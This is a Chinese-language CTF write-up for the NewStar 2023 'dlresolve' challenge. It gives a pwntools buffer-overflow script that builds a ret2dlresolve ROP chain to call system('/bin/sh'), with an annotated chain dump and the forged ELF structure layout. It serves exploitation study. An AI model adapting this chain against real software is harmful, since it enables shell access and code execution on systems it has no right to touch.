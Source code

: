 ```yaml
---
title: newstar2023 week3 - dlresolve
date: 2023/10/10 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - ret2dlresolve
thumbnail: /assets/newstar2023/relro.png
excerpt: 使用pwntools实现ret2dlresolve漏洞利用，简化了官方复杂的解题方式。
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

题目提示了使用ret2dlresolve，我们可以直接使用pwntools的工具生成

官方题解用了比较复杂的方式，而且与脚本实现也有很多不同，所以我就想弄清楚 pwntools
与官方题解有什么区别，因此下文只解析pwntools的实现，文末我也会把官方题解放上

## EXPLOIT

```python
# copy from official sample
from pwn import *
def payload():
    global sh
    context.arch = 'amd64'
    sh = gdb.debug('dlresolve')
    elf = ELF('dlresolve')

    bssHigh = 0x404500
    readAddr = 0x401192
    leaveRetAddr = 0x4011a9
    retAddr = 0x4011aa

    rop = ROP(elf)
    dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
    rop.read(0, dlresolve.data_addr)
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()

    sh.sendline(b'0'*120 + p64(retAddr) + raw_rop)
    sh.sendline(dlresolve.payload)
    sh.interactive()

payload()
```

## Ret2Dlresolve对象详解

相比起官方脚本，用工具生成不但简单，而且payload也短，以下是我的研究结果

使用`rop.dump()`，我们得以窥见rop攻击的具体含义：
```
0x0000:         0x40116b pop rsi; ret
0x0008:         0x404e00 [arg1] rsi = 4214272
0x0010:         0x40115e pop rdi; ret
0x0018:              0x0 [arg0] rdi = 0
0x0020:         0x401064 read
0x0028:         0x40115e pop rdi; ret
0x0030:         0x404e38 [arg0] rdi = 4214328
0x0038:         0x401020 [plt_init] system
0x0040:            0x30b [dlresolve index]
```
> ps: 复盘的时候忘记加`context.arch = 'amd64'`了，dump结果都变了，一定要注意！

到read都不必我说，接下来pop的rdi，是指向伪造出来的"/bin/sh"字符串的指针，
这样就能在解析完成后指定参数打开shell；然后0x401020是plt_init的地址，
这个“函数”做两件事：将link_map压到栈上，然后执行`dl_runtime_resolve`函数进行加载  
栈上还有一个index，是下图中的reloc_arg，可以由此指向伪造的ElfRel

那么这里为什么reloc_arg是0x30b呢？查了以下pwntools的源码，计算可推出如下关系：
`reloc_arg * ElfRel.size + __DT_SYMTAB -> &fakeRel`  
因为64位下ElfRel的大小是24字节，计算中可以将24带入；__DT_SYMTAB是指`__DT_SYMTAB`这个标签的地址；
这里使用'->'是因为这两边并不一定相等，而是存在对齐调整的  
至此，`rop`部分已经分析完毕

接下来是`dlresolve.payload`部分：这一部分没有`dump`函数，只有bytes，
不过动调以后也逐渐搞明白了其结构，接下来用伪c代码，按结构展开各个字节对应的内容  
（前面的标号是字段在payload中的起始地址）
```c
0:  "system\0a" // 'a' for padding
Elf64_Sym fakeSym = {
8:  st_name = 0x49a8, // __DT_STRTAB + st_name == (char *)"system"
12: st_info = 0,
13: st_other = 0,
14: st_shndx = 0,
16: st_value = 0,
24: st_size = 0
} // size: 24
Elf64_Rel fakeRel = {
32: r_offset = 0x404e00,    // 解析完的地址存放的地址（伪造got）
40: r_info = 0x31800000007, // __DT_SYMTAB + 0x318 * 24 == &fakeSym
48: r_append = 0
} // size: 24
56: "/bin/sh\0" // argument
```
共计64字节，无关的条目全部填0，需要伪造的条目已经在后面写上了注释，具体dlresolve的执行流程见下图：  
![图解](/assets/newstar2023/relro.png)  
可以看到，所生成的结构在函数解析中一次次被使用，没有任何多余

如果到这里还觉得迷迷糊糊的话，建议动调步进观察`dl_fixup`函数的运行情况；
此外我在研究的时候也离不开[这篇知乎文章](https://zhuanlan.zhihu.com/p/134105591)的深入讲解，
搭配两者一起使用，是能理解其中奥秘的根本

另外，作者还提到了其他文章所没有介绍的Full Relro的利用方法，也可以学习一下

## 参考文献

1. [图片来源文章](https://blog.csdn.net/IO1n0/article/details/103323738 "透过深入分析延迟绑定了解 ret_2_dl_resolve:1Oin0的博客")
2. [深入讲解动态加载技术的知乎文章](https://zhuanlan.zhihu.com/p/134105591 "深入窥探动态链接:1Oin0的看雪论坛文章")
3. [官方题解](https://shimo.im/docs/QPMRxzGktzsZnzhz/read "详见dlresolve一节")
4. [dlresolve官方示例](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html#module-pwnlib.rop.ret2dlresolve "pwnlib.rop.ret2dlresolve")
5. [dlresolve源码](https://github.com/Gallopsled/pwntools/blob/2e09b7dd91/pwnlib/rop/ret2dlresolve.py "pwntools/pwnlib/rop/ret2dlresolve.py @ GitHub")

Done.
